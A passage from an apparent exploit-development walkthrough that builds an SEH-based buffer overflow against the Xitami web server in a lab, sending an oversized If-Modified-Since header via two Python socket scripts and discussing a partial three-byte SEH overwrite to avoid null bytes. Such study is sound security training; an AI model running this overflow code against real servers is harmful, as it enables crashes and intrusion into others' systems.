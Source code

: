 ```python


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

Looks like we were correct. 
![](/assets/images/CTP/xitamicorrect.JPG)

Time to find a `POP POP RET`. `!mona seh` nets us a small list of gadget addresses we can use; however, there is a problem. All of the addresses start with `00` which we cannot have in our shellcode. 

![](/assets/images/CTP/xitamiSEH.JPG)

The workaround here is that we need to overwrite only the first 3 bytes of the current SEH address and let the program fill in the nullbyte for us. To test this, let's send this payload with a 3 byte value for `seh`:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "CCCC"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh
crash += "D" * (1000 -len(crash))


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```
